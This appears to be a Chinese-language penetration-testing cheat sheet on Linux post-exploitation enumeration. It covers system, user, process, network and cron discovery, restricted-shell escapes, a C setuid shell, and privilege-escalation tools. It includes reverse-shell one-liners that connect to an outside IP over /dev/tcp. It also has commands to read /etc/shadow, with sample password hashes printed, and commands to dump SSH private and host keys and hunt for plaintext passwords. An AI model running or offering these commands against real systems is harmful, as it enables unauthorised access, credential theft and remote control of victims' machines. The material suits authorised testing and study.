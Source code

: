 信息收集 - Linux
========================================

获取内核，操作系统和设备信息
----------------------------------------
- PEASS-ng
	- ``https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh`` 列举在Linux系统上提升特权的所有可能方法
- LinEnum
	- ``https://github.com/rebootuser/LinEnum`` Linux文件枚举及权限提升检查工具
- 版本信息
    - ``uname -a`` 所有版本
    - ``uname -r`` 内核版本信息
    - ``uname -n`` 系统主机名字
    - ``uname -m`` Linux内核架构
- 内核信息 ``cat /proc/version``
- CPU信息 ``cat /proc/cpuinfo``
- 发布信息
    - ``cat /etc/*-release``
    - ``cat /etc/issue``
- 主机名 ``hostname``
- 文件系统 ``df -a``
- 内核日志 ``dmesg`` / ``/var/log/dmesg``
- 查看当前shell ``echo $0`` ``which sh``
	+ Restricted Shell
	
	::
	
		使用“rbash”，“ - restricted”，“ - r”选项启动任何现有的shell，那么它将成为Restricted shell。
		Restricted Shell将限制用户执行大多数命令和更改当前工作目录。Restricted Shell将对用户施加以下限制。
		1.它不允许您执行cd命令。所以你不能去任何地方。您可以简单地留在当前的工作目录中。
		2.它不允许您修改  $ PATH，$ SHELL，$ BASH_ENV或$ ENV环境变量的值。
		3.它不允许您执行包含/（斜杠）字符的程序。例如，您无法运行/ usr / bin / uname或./uname命令。
		4.您无法使用'重定向输出'>'，'> |'，'<>'，'>＆'，'＆>'，'和'>>'重定向运算符。
		5.它不允许您在脚本中退出受限制的shell模式。
		6.它不允许您使用'set + r'或'set + o restricted'关闭受限制的shell模式。
		常见的受限制 shell 有:rbash、rksh、rsh、lshell.
	
	+ dash
	
	::
	
		当 /bin/sh指向/bin/dash的时候，反弹shell用bash的话必须得这样弹：
		root bash -c "bash -i  >&/dev/tcp/106.13.124.93/2333 0>&1"
		ubuntu中，当不能指定用户名
		bash -c "bash -i  >&/dev/tcp/106.13.124.93/2333 0>&1"
		或者有权限改变/bin/sh的连接指向/bin/bash后：
		ln -s -f /bin/bash /bin/sh
		反弹shell可以用最常见的办法： 
		/bin/bash -i >& /dev/tcp/ip(vps)/7999 0>&1
		
- 突破受限shell
	- 枚举Linux环境
		
	::
	
		枚举是找到突破方法的重要组成部分。我们需要枚举Linux环境来检测为了绕过rbash我们可以做哪些事。
		在正式进行绕过测试之前,我们需要进行以下操作:
		1、首先,我们必须检查可用命令,像cd、ls、echo等
		2、接下来我们要检查常见的操作符,像>、>>、<、|
		3、然后对可用的编程语言进行检查,如perl、ruby、python等
		4、通过sudo -l命令检查我们可以使用root权限运行哪些命令
		5、使用SUID perm检查文件或命令。
		6、使用echo $SHELL命令检查当前使用的是什么shell(90%得到的结果是rbash)
		7、使用env或者printenv命令检查环境变量
		通过以上操作,我们已收集到一些游泳的信息,接下来尝试一下通用的利用方法。
		
	- 通用利用技巧

	::
	
		1、如果"/"命令可用的话,运行/bin/sh或者/bin/bash
		2、运行cp命令,将/bin/sh或者/bin/bash复制到当前目录
		3、在ftp中运行!/bin/sh或者!/bin/bash,如下图所示
		4、在gdb中运行!/bin/sh或者!/bin/bash
		5、在more、man、less中运行!/bin/sh或者!/bin/bash
		6、在vim/vi中运行!/bin/sh或者!/bin/bash
		7、在rvim中执行:python import os; os.system("/bin/bash )
		8、scp -S /path/yourscript x y:
		9、awk 'BEGIN {system("/bin/sh or /bin/bash")}'
		10、find / -name test -exec /bin/sh or /bin/bash \;
		
	- 编程语言技巧
	
	::
	
		1、使用except spawn
		2、python -c 'import os; os.system("/bin/sh")'
		3、php -a then exec("sh -i");
		4、perl -e 'exec "/bin/sh";'
		5、Lua:os.execute('/bin/sh').
		6、ruby:exec "/bin/sh"
		7、python: echo os.system('/bin/bash')
		
	- 高级利用技巧
	
	::
	
		1、ssh username@IP – t "/bin/sh" or "/bin/bash"
		2、ssh username@IP -t "bash –noprofile"
		3、ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
		4、ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
		5、git帮助状态下通过!/bin/bash进入交互式shell
		6、pico -s "/bin/bash"进入编辑器写入/bin/bash然后按ctrl + T键
		7、zip /tmp/test.zip /tmp/test -T –unzip-command="sh -c /bin/bash"
		8、tar cf /dev/null testfile –checkpoint=1 –checkpointaction=exec=/bin/bash
		9、c setuid shell:
		#include <stdlib.h>
		#include <unistd.h>
		#include <stdio.h>
		int main(int argc,char **argv,char **envp)
		{
			setresgid(getegid(),getegid(),getegid());
			setresuid(geteuid(),geteuid(),geteuid());
			
		 execve("/bin/sh",argv,envp);
		 return 0;
		}
			
	- ``ssh guest@x.x.x.x -t "python -c 'import pty;pty.spawn(\"/bin/bash\")'"``

用户和组
----------------------------------------
- 列出系统所有用户 ``cat /etc/passwd``
	::
	
		root:x:0:0::/root:/bin/bash
		bin:x:1:1::/:/usr/bin/nologin
		daemon:x:2:2::/:/usr/bin/nologin
		mail:x:8:12::/var/spool/mail:/usr/bin/nologin
		ftp:x:14:11::/srv/ftp:/usr/bin/nologin
		http:x:33:33::/srv/http:/usr/bin/nologin
		nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
		dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
		systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
		systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
		systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
		systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
		systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
		systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
		uuidd:x:68:68::/:/usr/bin/nologin
		dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
		py:x:1000:1000::/home/py:/bin/bash
		git:x:974:974:git daemon user:/:/usr/bin/git-shell
		redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
		
		注册名：口令：用户标识号：组标识号：用户名：用户主目录：命令解释程序
		(1)注册名(login_name)：该字段被限制在8个字符(字母或数字)的长度之内,字母大小写是敏感的。
		(2)口令(passwd)：系统用口令来验证用户的合法性。
		现在的Unix/Linux系统中，口令不再直接保存在passwd文件中，通常将passwd文件中的口令字段使
		用一个“x”来代替，将/etc/shadow作为真正的口令文件，用于保存包括个人口令在内的数据。
		如果passwd字段中的第一个字符是“*”的话，表示系统不允许持有该账号的用户登录。 
		(3)用户标识号(UID)：UID是一个数值，是Linux系统中惟一的用户标识，用于区别不同的用户。 
		(4)组标识号(GID)：这是当前用户的缺省工作组标识。
		(5)用户名(user_name)：包含有关用户的一些信息。
		(6)用户主目录(home_directory)：该字段定义了个人用户的主目录。
		(7)命令解释程序(Shell)：通常是一个Shell程序的全路径名，如/bin/bash。 

- 列出系统所有组 ``cat /etc/group``
- 列出所有用户hash（root）``cat /etc/shadow``
	::
	
		root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
		daemon:*:18440:0:99999:7:::
		bin:*:18440:0:99999:7:::
		sys:*:18440:0:99999:7:::
		sync:*:18440:0:99999:7:::
		games:*:18440:0:99999:7:::
		man:*:18440:0:99999:7:::
		lp:*:18440:0:99999:7:::
		mail:*:18440:0:99999:7:::
		news:*:18440:0:99999:7:::
		uucp:*:18440:0:99999:7:::
		proxy:*:18440:0:99999:7:::
		www-data:*:18440:0:99999:7:::
		backup:*:18440:0:99999:7:::
		list:*:18440:0:99999:7:::
		irc:*:18440:0:99999:7:::
		gnats:*:18440:0:99999:7:::
		nobody:*:18440:0:99999:7:::
		_apt:*:18440:0:99999:7:::
		systemd-timesync:*:18440:0:99999:7:::
		systemd-network:*:18440:0:99999:7:::
		systemd-resolve:*:18440:0:99999:7:::
		messagebus:*:18440:0:99999:7:::
		avahi-autoipd:*:18440:0:99999:7:::
		sshd:*:18440:0:99999:7:::
		avahi:*:18440:0:99999:7:::
		saned:*:18440:0:99999:7:::
		colord:*:18440:0:99999:7:::
		hplip:*:18440:0:99999:7:::
		systemd-coredump:!!:18440::::::
		296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
		
		文件的格式为：{用户名}：{加密后的口令密码}：{口令最后修改时间距原点(1970-1-1)的天数}：{口令最小修改间隔(防止修改口令，如果时限未到，将恢复至旧口令)：{口令最大修改间隔}：{口令失效前的警告天数}：{账户不活动天数}：{账号失效天数}：{保留}
		其中{加密后的口令密码}的格式为 $id$salt$encrypted
		id为1时，采用md5算法加密
		id为5时，采用SHA256算法加密
		id为6时，采用SHA512算法加密
		salt为盐值,是对密码进行hash的一个干扰值
		encrypted为散列值
	
- 用户
    - 查询用户的基本信息 ``finger``
    - 当前登录的用户 ``users`` ``who -a`` ``/var/log/utmp``
- 目前登录的用户 ``w``
- 登入过的用户信息 ``last`` / ``/var/log/wtmp``
- 显示系统中所有用户最近一次登录信息 ``lastlog`` / ``/var/log/lastlog``
- 登录成功日志 ``/var/log/secure``
- 登录失败日志 ``/var/log/faillog``
- 查看特权用户 ``grep :0 /etc/passwd``
- 查看passwd最后修改时间 ``ls -l /etc/passwd``
- 查看是否存在空口令用户 ``awk -F: 'length($2)==0 {print $1}' /etc/shadow``
- 查看远程登录的账号 ``awk '/\$1|\$6/{print $1}' /etc/shadow``
- 查看具有sudo权限的用户
    - ``cat /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"``

用户和权限信息
----------------------------------------
- 当前用户 ``whoami``
- 当前用户信息 ``id``
- 可以使用sudo提升到root的用户（root） ``cat /etc/sudoers``
- 列出目前用户可执行与无法执行的指令 ``sudo -l``

环境信息
----------------------------------------
- 打印系统环境信息 ``env``
- 打印系统环境信息 ``set``
- 环境变量中的路径信息 ``echo  $PATH``
- 打印历史命令 ``history`` / ``~/.bash_history``
- 显示当前路径 ``pwd``
- 显示默认系统遍历 ``cat /etc/profile``
- 显示可用的shell ``cat /etc/shells``

进程信息
----------------------------------------
- 查看进程信息 ``ps aux``
- 资源占有情况 ``top -c``
- 查看进程关联文件 ``lsof -c $PID``

服务信息
----------------------------------------
- 由inetd管理的服务列表 ``cat /etc/inetd.conf``
- 由xinetd管理的服务列表 ``cat /etc/xinetd.conf``
- nfs服务器的配置 ``cat /etc/exports``
- 邮件信息 ``/var/log/mailog``

计划任务
----------------------------------------
- 显示指定用户的计划作业（root） ``crontab -l -u %user%``
- 计划任务
    - ``/var/spool/cron/*``
    - ``/var/spool/anacron/*``
    - ``/etc/crontab``
    - ``/etc/anacrontab``
    - ``/etc/cron.*``
    - ``/etc/anacrontab``
- 开机启动项
    - ``/etc/rc.d/init.d/``

有无明文存放用户密码
----------------------------------------
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find , -name "\*\.php" -print0 | xargs -0 grep -i -n "var \$password"

有无ssh 私钥
----------------------------------------
- cat ~/.ssh/authorized_keys
- cat ~/.ssh/identity.pub
- cat ~/.ssh/identity
- cat ~/.ssh/id_rsa.pub
- cat ~/.ssh/id_rsa
- cat ~/.ssh/id_dsa.pub
- cat ~/.ssh/id_dsa
- cat /etc/ssh/ssh_config
- cat /etc/ssh/sshd_config
- cat /etc/ssh/ssh_host_dsa_key.pub
- cat /etc/ssh/ssh_host_dsa_key
- cat /etc/ssh/ssh_host_rsa_key.pub
- cat /etc/ssh/ssh_host_rsa_key
- cat /etc/ssh/ssh_host_key.pub
- cat /etc/ssh/ssh_host_key


网络、路由和通信
----------------------------------------
- 列出网络接口信息 ``/sbin/ifconfig -a`` / ``ip addr show``
- 列出网络接口信息 ``cat /etc/network/interfaces``
- 查看系统arp表 ``arp -a``
- 打印路由信息 ``route`` / ``ip ro show``
- 查看dns配置信息 ``cat /etc/resolv.conf``
- 打印本地端口开放信息 ``netstat -an``
- 列出iptable的配置规则 ``iptables -L``
- 查看端口服务映射 ``cat /etc/services``
- Hostname ``hostname -f``
- 查看进程端口情况 ``netstat -anltp | grep $PID``

已安装程序
----------------------------------------
- ``rpm -qa --last`` Redhat
- ``yum list | grep installed`` CentOS
- ``ls -l /etc/yum.repos.d/``
- ``dpkg -l`` Debian
- ``cat /etc/apt/sources.list`` Debian APT
- ``pkg_info`` xBSD
- ``pkginfo`` Solaris
- ``pacman -Q`` Arch Linux

文件
----------------------------------------
- 最近五天的文件 ``find / -ctime +1 -ctime -5``
- 文件系统细节 ``debugfs``
